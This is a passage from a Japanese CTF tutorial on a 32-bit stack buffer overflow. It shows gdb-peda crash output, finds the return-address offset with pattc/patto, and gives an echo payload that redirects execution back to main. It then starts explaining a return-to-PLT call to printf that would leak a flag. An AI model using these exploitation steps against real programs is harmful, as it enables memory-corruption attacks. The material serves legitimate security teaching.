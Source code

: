 ```
[------------------------------------stack-------------------------------------]
0000| 0xffffc570 ("ADAA;AA)AAEAAaAA0AAFAAbA\n")
0004| 0xffffc574 (";AA)AAEAAaAA0AAFAAbA\n")
0008| 0xffffc578 ("AAEAAaAA0AAFAAbA\n")
0012| 0xffffc57c ("AaAA0AAFAAbA\n")
0016| 0xffffc580 ("0AAFAAbA\n")
0020| 0xffffc584 ("AAbA\n")
0024| 0xffffc588 --> 0xa ('\n')
0028| 0xffffc58c --> 0xf7e12276 (<__libc_start_main+246>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41284141 in ?? ()
gdb-peda$ patto AA(A
AA(A found at offset: 22
```

pattcで生成した文字列を入力して、EIPに入力された文字列が何バイト目に現れるかpattoで調べます。
今回の場合22とわかりました。  
なのでfgetsのリターンアドレスをmain関数(0x56555626)の先頭にするには以下のような入力になります。
intelアーキテクチャはリトルエンディアンであること、objdumpで分かったアドレスにオフセットを加えることに注意してください。  
bufferのアドレスが2回出てきたら成功です。

```
# $ echo -e 'AAAAAAAAAAAAAAAAAAAAAA\x26\x56\x55\x56' | ./a.out
buffer: 0x56557020
buffer: 0x56557020
zsh: done                echo -e 'AAAAAAAAAAAAAAAAAAAAAA\x26\x56\x55\x56' |
zsh: segmentation fault  ./a.out
```

### Return to PLT

call命令はjump命令と同じく次の命令を指定されたアドレスに飛ばします。この時ret命令で戻ってこれるようにリターンアドレスをスタックにpushする点が違います。
この時ret命令ではスタックの一番先をeipにpopします。前の攻撃でmain関数が2回実行されたのは、バッファオーバーフローでリターンアドレスが上書きされてしまい、それがret命令でeipにセットされたからでした。

flagを得るにはbufferを出力したいわけです。そこでmain関数を呼び出すのではなく、printf関数をbufferを引数に呼び出してみましょう。

アセンブリでの引数はスタック上にあります。
例えば2個引数をとる関数を呼び出すにはcallをする前に必要な引数をスタック上にpushしておきます。
なのでバッファオーバーフローでリターンアドレスだけではなく、引数の部分も上書きしてしまえば、あたかもその引数で本当にその関数を呼び出したかのように実行できます。

オーバーフロー後のスタックは以下の表にのなります。


address| value
---|---
0x00000000|
...|
リターンアドレス| printfのアドレス
printf呼び出し後のアドレス|ダミー
引数1|bufferのアドレス
...|
0xFFFFFFFF|
